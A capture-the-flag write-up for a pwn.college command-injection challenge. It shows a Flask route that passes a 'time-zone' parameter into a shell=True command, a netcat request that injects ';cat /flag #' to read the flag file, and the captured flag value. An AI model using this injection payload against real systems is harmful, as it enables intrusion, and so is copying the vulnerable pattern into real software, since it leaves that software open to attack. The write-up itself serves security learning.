 # Command Injection 4 — Writeup

## 🧠 Challenge Overview

In this challenge, we are provided with a Python Flask web server that includes a route `/milestone`. It allows users to supply a `time-zone` parameter, which is directly interpolated into a shell command. This introduces a **command injection vulnerability**.

### 🔍 Source Code
```python
#!/opt/pwn.college/python

import subprocess
import flask
import os

app = flask.Flask(__name__)

@app.route("/milestone", methods=["GET"])
def challenge():
    arg = flask.request.args.get("time-zone", "MST")
    command = f"TZ={arg} date"

    print(f"DEBUG: {command=}")
    result = subprocess.run(
        command,  # the command to run
        shell=True,  # use the shell to run this command
        stdout=subprocess.PIPE,  # capture the standard output
        stderr=subprocess.STDOUT,  # 2>&1
        encoding="latin",  # capture the resulting output as text
    ).stdout

    return f"""
        <html><body>
        Welcome to the timezone service! Please choose a timezone to get the time there.
        <form action="/milestone"><input type=text name=time-zone><input type=submit value=Submit></form>
        <hr>
        <b>Output of {command}:</b><br>
        <pre>{result}</pre>
        </body></html>
        """

os.setuid(os.geteuid())
os.environ["PATH"] = "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = "challenge.localhost:80"
app.run("challenge.localhost", 80)
```
---

## 🧨 Vulnerability

The `time-zone` input is passed directly to a shell command using `shell=True`:

```python
command = f"TZ={arg} date"
```

This allows the user to inject additional shell commands using characters like `;`.

---

## 🚀 Exploit

We inject a command to read the `/flag` file by terminating the original command with `;` and chaining `cat /flag`.

We send the following malicious request using `netcat`:

```bash
printf 'GET /milestone?time-zone=UTC;cat+/flag+%%23 HTTP/1.0\r\nHost:challenge.localhost\r\n\r\n' | nc challenge.localhost 80
```

- `UTC;cat+/flag+%23` → `%23` is the URL-encoded `#`, which is used to comment out the rest of the line (to avoid errors from trailing `date`).
- `cat+/flag` → Reads the flag.
- The result will include the output of the `cat /flag` command.
---

## 🏁 Flag

The response includes the flag inside the `<pre>` tag:

```
pwn.college{cz5Lo7gaOZPd-wP7z3JqIhPGNUX.QX4gzMzwSM0IzMyEzW}
```
---
